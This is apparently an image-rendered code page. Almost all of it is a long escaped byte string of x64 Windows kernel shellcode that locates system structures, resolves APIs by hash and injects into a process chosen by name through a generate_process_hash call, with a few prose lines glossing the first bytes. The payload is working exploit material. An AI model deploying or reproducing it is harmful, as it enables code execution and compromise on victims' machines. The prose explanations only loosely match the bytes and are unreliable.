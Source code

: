 The provided sequence initializes the ECX register to zero and then enters a loop that continues until the ECX register reaches zero. Once the loop finishes, it executes a return instruction.

`"\x31\xc9\x41\xe2\x01\xc3\x56\x41\x57\x41\x56\x41\x55\x41\x54\x53" \`

Pushes the value of RBP onto the stack
Moves the value of RSP into RBP, creating a stack frame
Performs some operations involving the ECX register, manipulating its value
Adjusts the stack pointer by subtracting 32 bytes
Uses the RIP-relative addressing mode to load a value from memory into a register

`"\x55\x48\x89\xe5\x66\x83\xe4\xf0\x48\x83\xec\x20\x4c\x8d\x35\xe3" \`

    
    "\xff\xff\xff\x65\x4c\x8b\x3c\x25\x38\x00\x00\x00\x4d\x8b\x7f\x04" \
    "\x49\xc1\xef\x0c\x49\xc1\xe7\x0c\x49\x81\xef\x00\x10\x00\x00\x49" \
    "\x8b\x37\x66\x81\xfe\x4d\x5a\x75\xef\x41\xbb\x5c\x72\x11\x62\xe8" \
    "\x18\x02\x00\x00\x48\x89\xc6\x48\x81\xc6\x08\x03\x00\x00\x41\xbb" \
    "\x7a\xba\xa3\x30\xe8\x03\x02\x00\x00\x48\x89\xf1\x48\x39\xf0\x77" \
    "\x11\x48\x8d\x90\x00\x05\x00\x00\x48\x39\xf2\x72\x05\x48\x29\xc6" \
    "\xeb\x08\x48\x8b\x36\x48\x39\xce\x75\xe2\x49\x89\xf4\x31\xdb\x89" \
    "\xd9\x83\xc1\x04\x81\xf9\x00\x00\x01\x00\x0f\x8d\x66\x01\x00\x00" \
    "\x4c\x89\xf2\x89\xcb\x41\xbb\x66\x55\xa2\x4b\xe8\xbc\x01\x00\x00" \
    "\x85\xc0\x75\xdb\x49\x8b\x0e\x41\xbb\xa3\x6f\x72\x2d\xe8\xaa\x01" \
    "\x00\x00\x48\x89\xc6\xe8\x50\x01\x00\x00\x41\x81\xf9" +
    generate_process_hash(proc_name.upcase) +
    "\x75\xbc\x49\x8b\x1e\x4d\x8d\x6e\x10\x4c\x89\xea\x48\x89\xd9" \
    "\x41\xbb\xe5\x24\x11\xdc\xe8\x81\x01\x00\x00\x6a\x40\x68\x00\x10" \
    "\x00\x00\x4d\x8d\x4e\x08\x49\xc7\x01\x00\x10\x00\x00\x4d\x31\xc0" \
    "\x4c\x89\xf2\x31\xc9\x48\x89\x0a\x48\xf7\xd1\x41\xbb\x4b\xca\x0a" \
    "\xee\x48\x83\xec\x20\xe8\x52\x01\x00\x00\x85\xc0\x0f\x85\xc8\x00" \
    "\x00\x00\x49\x8b\x3e\x48\x8d\x35\xe9\x00\x00\x00\x31\xc9\x66\x03" \
    "\x0d\xd7\x01\x00\x00\x66\x81\xc1\xf9\x00\xf3\xa4\x48\x89\xde\x48" \
    "\x81\xc6\x08\x03\x00\x00\x48\x89\xf1\x48\x8b\x11\x4c\x29\xe2\x51" \
    "\x52\x48\x89\xd1\x48\x83\xec\x20\x41\xbb\x26\x40\x36\x9d\xe8\x09" \
    "\x01\x00\x00\x48\x83\xc4\x20\x5a\x59\x48\x85\xc0\x74\x18\x48\x8b" \
    "\x80\xc8\x02\x00\x00\x48\x85\xc0\x74\x0c\x48\x83\xc2\x4c\x8b\x02" \
    "\x0f\xba\xe0\x05\x72\x05\x48\x8b\x09\xeb\xbe\x48\x83\xea\x4c\x49" \
    "\x89\xd4\x31\xd2\x80\xc2\x90\x31\xc9\x41\xbb\x26\xac\x50\x91\xe8" \
    "\xc8\x00\x00\x00\x48\x89\xc1\x4c\x8d\x89\x80\x00\x00\x00\x41\xc6" \
    "\x01\xc3\x4c\x89\xe2\x49\x89\xc4\x4d\x31\xc0\x41\x50\x6a\x01\x49" \
    "\x8b\x06\x50\x41\x50\x48\x83\xec\x20\x41\xbb\xac\xce\x55\x4b\xe8" \
    "\x98\x00\x00\x00\x31\xd2\x52\x52\x41\x58\x41\x59\x4c\x89\xe1\x41" \
    "\xbb\x18\x38\x09\x9e\xe8\x82\x00\x00\x00\x4c\x89\xe9\x41\xbb\x22" \
    "\xb7\xb3\x7d\xe8\x74\x00\x00\x00\x48\x89\xd9\x41\xbb\x0d\xe2\x4d" \
    "\x85\xe8\x66\x00\x00\x00\x48\x89\xec\x5d\x5b\x41\x5c\x41\x5d\x41" \
    "\x5e\x41\x5f\x5e\xc3\xe9\xb5\x00\x00\x00\x4d\x31\xc9\x31\xc0\xac" \
    "\x41\xc1\xc9\x0d\x3c\x61\x7c\x02\x2c\x20\x41\x01\xc1\x38\xe0\x75" \
    "\xec\xc3\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52" \
    "\x20\x48\x8b\x12\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x45\x31\xc9" \
    "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1" \
    "\xe2\xee\x45\x39\xd9\x75\xda\x4c\x8b\x7a\x20\xc3\x4c\x89\xf8\x41" \
    "\x51\x41\x50\x52\x51\x56\x48\x89\xc2\x8b\x42\x3c\x48\x01\xd0\x8b" \
    "\x80\x88\x00\x00\x00\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20" \
    "\x49\x01\xd0\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\xe8\x78\xff" \
    "\xff\xff\x45\x39\xd9\x75\xec\x58\x44\x8b\x40\x24\x49\x01\xd0\x66" \
    "\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48" \
    "\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41\x5b\x41\x53\xff\xe0\x56" \
    "\x41\x57\x55\x48\x89\xe5\x48\x83\xec\x20\x41\xbb\xda\x16\xaf\x92" \
    "\xe8\x4d\xff\xff\xff\x31\xc9\x51\x51\x51\x51\x41\x59\x4c\x8d\x05" \
    "\x1a\x00\x00\x00\x5a\x48\x83\xec\x20\x41\xbb\x46\x45\x1b\x22\xe8" \
    "\x68\xff\xff\xff\x48\x89\xec\x5d\x41\x5f\x5e\xc3"
